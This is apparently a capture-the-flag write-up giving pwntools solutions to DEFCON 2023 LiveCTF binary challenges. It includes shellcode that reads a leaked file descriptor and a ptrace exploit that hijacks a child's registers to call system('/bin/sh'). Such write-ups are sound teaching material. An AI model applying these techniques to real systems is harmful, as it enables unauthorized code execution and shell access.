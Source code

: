 ```yaml
---
title: "DEFCON 2023 Qualifier: LiveCTF"
tags: pwn
style: border
color: dark
comments: true
description: Solutions to LiveCTF challenges from DEFCON 2023 Quals
---
```


# LiveCTF

LiveCTF is a sub category of DEFCON competition which mostly comprosises with binary challenges with easier difficulty- but with less time and points.
The key to utilize LiveCTF in DEFCON is to solve it as fast as possible while using the least manpower as possible.

An interesting thing about LiveCTF challenges is its own unique way of submitting its solutions. Instead of directly pasting the flag, we submit a compressed solution file containing a Dockerfile and the exploit.

At the DEFCON 2023 Qualification Round, there were a total of 7 LiveCTF challenges.

I focused on LiveCTFs in this qualification round and will go over some pwn (binary) challenges that I worked on/solved.

## LiveCTF Practice Challenge

The solution is given, as it is just to make sure the submition system works:

```python
from pwn import *
HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

r = remote(HOST, int(PORT))
r.recvline_contains(b'Give me input: ')
r.sendline(b'WIN')
r.recvline_contains(b'You sent: ')
r.sendline(b'./submitter')
flag = r.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)
```

## benshmark

In the challenge source code, 
```c
if ( read(f, code, 0x100uLL) == -1 )
{
    puts("read failed");
    free(code);
}
```
Fail in reading a file doesn't close the file descriptor, therefore, can be leaked.
- Read /flag twice
- Trigger read fail and leak fd
- Run shellcode to read from fd
- Get flag

### Exploit
A solution by my teammate from ```P1G BuT S4D```:
```python
#!/usr/bin/env python3

from pwn import *
import re

context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

# r = remote(HOST, int(PORT))
r = process("../handout/challenge")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/flag")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/flag")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/proc/self/fd/0")

r.send(asm("""
    call A
A:
    pop rdx
ZALOOP:
    mov rax, 8882879963476683084
    cmp QWORD PTR [rdx], rax
    je FOUND
    dec rdx
    jmp ZALOOP
FOUND:
    mov rdi, QWORD PTR [rdx]
    
    mov rsi, rbp
    sub rsi, 0x28
    mov rsi, QWORD PTR [rsi]
    add rsi, 0x0c
    mov rdi, QWORD PTR [rdx]
    mov QWORD PTR [rsi], rdi
    mov rdi, QWORD PTR [rdx+8]
    mov QWORD PTR [rsi+8], rdi
    mov rdi, QWORD PTR [rdx+16]
    mov QWORD PTR [rsi+16], rdi
    mov rdi, QWORD PTR [rdx+24]
    mov QWORD PTR [rsi+24], rdi
    ret
"""))

gdb.attach(r)

r.sendlineafter(b"Choice:", b"2")
print(re.findall(rb'LiveCTF{[^}{}]+}', r.recvall(timeout=3))[0].decode())
```

## ptrace-me-maybe

The challenge spawns a child process and lets the user run any kind of ptrace requests as much as the user wants.

We can exploit the challenge by:
- Leak libc base through PTRACE_PEEKUSER request
- Write ```system``` to RIP and "/bin/sh" to RDI through PTRACE_POKEUSER request
- Restart child process by PTRACE_CONT with the new register values
- Get shell

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

system_offset = 331104
binsh_offset = 1935000

r = remote(HOST, int(PORT))
# r = process("./challenge")

r.sendlineafter(b"send?", b"0x3")
r.sendlineafter(b"want?", b"0x80")
r.sendlineafter(b"data?", b"0x0")

r.recvuntil(b"returned ")
leak = int(r.recvline().strip()[2:].decode(), 16)

r.sendlineafter(b"(0/1)?", "1")

libc_base = leak - 0x7ffff7e7abc7 + 0x7ffff7d91000 - 0x1000

r.sendlineafter(b"send?", b"0x6")
r.sendlineafter(b"want?", b"0x80")
r.sendlineafter(b"data?", hex(libc_base + system_offset).encode())
r.sendlineafter(b"(0/1)?", b"1")

r.sendlineafter(b"send?", b"0x6")
r.sendlineafter(b"want?", b"0x70")
r.sendlineafter(b"data?", hex(libc_base + binsh_offset).encode())
r.sendlineafter(b"(0/1)?", b"1")

# gdb.attach(r)

r.sendlineafter(b"send?", b"0x7")
r.sendlineafter(b"want?", b"0x0")
r.sendlineafter(b"data?", b"0x0")

# print(hex(libc_base))

# pause()
r.sendlineafter(b"(0/1)?", b"0")

sleep(1)

r.sendline(b'./submitter')

flag = r.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

```

Thanks,

079
